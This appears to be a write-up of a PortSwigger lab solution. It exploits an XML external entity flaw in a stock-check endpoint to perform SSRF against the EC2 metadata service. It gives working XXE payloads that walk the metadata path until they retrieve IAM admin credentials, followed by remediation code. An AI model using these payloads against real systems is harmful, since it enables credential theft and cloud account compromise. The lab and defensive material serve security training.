

## Metadata

- **Difficulty:** Apprentice
- **Category:** XXE injection 
- **Lab URL:** [Lab: Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
- **Date Solved:** 15/10/2026
## Vulnerability Summary

The stock check functionality (`POST /product/stock`) parses XML with DTD processing and external entity resolution enabled. By declaring an external entity that points to the EC2 metadata service (`http://169.254.169.254/`) and referencing it in `<productId>`, the server fetches that URL itself. Because the `400 Bad Request` response echoes the invalid product ID, the fetched content is returned to the client in-band. Walking the metadata tree this way retrieves the IAM security credentials for the `admin` role, including `SecretAccessKey`. The impact is SSRF against internal and cloud infrastructure and disclosure of cloud credentials, which could enable full cloud account compromise.
## Reconnaissance

We can check the stock of an item by sending the `POST /product/stock` request, with XML data in the request body:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
The request contains the header `Content-Type: application/xml`. Injecting a non-numeric input (`uia`) into `productId` yields a `400 Bad Request` that reflected the input in the response:
```http
"Invalid product ID: uia"
```
Sending the `POST /product/stock` request with the following body:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY uia SYSTEM "http://169.254.169.254/"> ]><stockCheck> 
	<productId>&uia;</productId>
	<storeId>1</storeId>
</stockCheck>
```
results in a `400 Bad Request` HTTP response that, in the body, reads:
```http
"Invalid product ID: latest"
```
The entity (EC2 instance metadata service) resolved successfully, and its root returned what appears to be a directory parameter. Same payload but with `"http://169.254.169.254/latest"` returns:
```http
"Invalid product ID: meta-data"
```
The `400` body echoes the value of `productId` after entity expansion, so the error response is the exfiltration channel: whatever the server fetches is reflected back to us. We can keep going by appending `meta-data` as a parameter in the internal endpoint, and so on.
## Exploitation Steps

1. Navigate to a random product (`GET /product?productId=1`) and click on the "Check stock" button. This should produce a `POST /product/stock` request. Send this request to Repeater.
2. Modify the body of the request to the following XML input:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY uia SYSTEM "http://169.254.169.254/"> ]><stockCheck> 
	<productId>&uia;</productId>
	<storeId>1</storeId>
</stockCheck>
```
Then send the request. You should receive a `400 Bad Request` that says:
```http
"Invalid product ID: latest"
```
3. Continue sending the same payload, but this time uses `http://169.254.169.254/latest`. Each error message is the next directory in the metadata tree, so the path is extended one segment at a time. You should receive:
```http
"Invalid product ID: meta-data"
```
4. Continue sending the same payload, but this time uses `http://169.254.169.254/latest/meta-data`. You should receive:
```http
"Invalid product ID: iam"
```
5. Continue sending the same payload, but this time uses `http://169.254.169.254/latest/meta-data/iam`. You should receive:
```http
"Invalid product ID: security-credentials"
```
6. Continue sending the same payload, but this time uses `http://169.254.169.254/latest/meta-data/iam/security-credentials`. You should receive:
```http
"Invalid product ID: admin"
```
7. Continue sending the same payload, but this time uses `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`. You should receive a JSON response body that contains the `SecretAccessKey`, and the lab is solved.


## Payload Used

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY uia SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&uia;</productId><storeId>1</storeId></stockCheck>
```

We introduce a `DOCTYPE` that declares the external entity `uia`, with the full path to the admin role's credentials on the EC2 metadata service. The XML parser expands `&uia;` during parsing, before the application validates `<productId>`. The server fetches the URL itself. Validation then rejects the expanded value, and the error message echoes it back, returning the credentials in the response. The entity is placed in `<productId>` because that is the field the application validates and reflects. The entity would be expanded in any element, but only this one reaches the error message.
## Root Cause

The server-side XML parser is configured to process custom Document Type Definitions (DTDs) and resolve external entities (`SYSTEM` identifier) by default. The developer mistakes are relying on parser defaults instead of explicitly disabling DTDs and external entities, and echoing unvalidated, parsed input in verbose error messages. The attack is in-band because of that echo. The cloud environment amplifies the impact: the metadata service (IMDSv1) returns credentials to any unauthenticated GET request, and the application tier can reach link-local addresses without egress restrictions.
## Remediation

- **Disable External Entities and DTDs (Parser Configuration):** Depending on the backend technology used, disable entity resolution explicitly:
    - Java (`DocumentBuilderFactory`):
    ```java
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance(); 
    // Completely disable DOCTYPE declarations: 
    dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true); 
    // Or disable external general and parameter entities: 
    dbf.setFeature("http://xml.org/sax/features/external-general-entities", false); 
    dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false); 
    dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false); 
    dbf.setXIncludeAware(false);
    ```
    - Python (`lxml` / `defusedxml`): Use `defusedxml`. If using `lxml`, explicitly disable external entities and network access:
    ```python
    parser = etree.XMLParser(resolve_entities=False, no_network=True)
    ```
    - PHP (`libxml`): Before PHP 8.0, external entity loading was enabled by default, so call `libxml_disable_entity_loader(true)`. From PHP 8.0 onward, external entity loading is disabled by default and that function is deprecated. Verify your libxml and PHP configuration rather than relying on defaults alone.
- **Restrict SSRF Reach from the Application (Cloud):** Enforce IMDSv2 (session-token required) and set the metadata response hop limit to 1 so containers and proxies cannot reach it. Apply egress filtering that blocks outbound requests from the application tier to `169.254.0.0/16` and other internal ranges. Apply least-privilege IAM so the role's credentials cannot access more than the application needs.
- **Use Less Complex Data Formats:** Where applicable, avoid using XML for API communication. Use simpler serialization formats such as JSON that do not support custom document schemas or external references natively.
- **Sanitize and Genericize Error Handling (defense in depth):** Ensure input validation errors do not reflect the raw parsed input back to the client. Generic error messages (e.g., `Invalid Product ID`) prevent local file disclosure and error-based data extraction.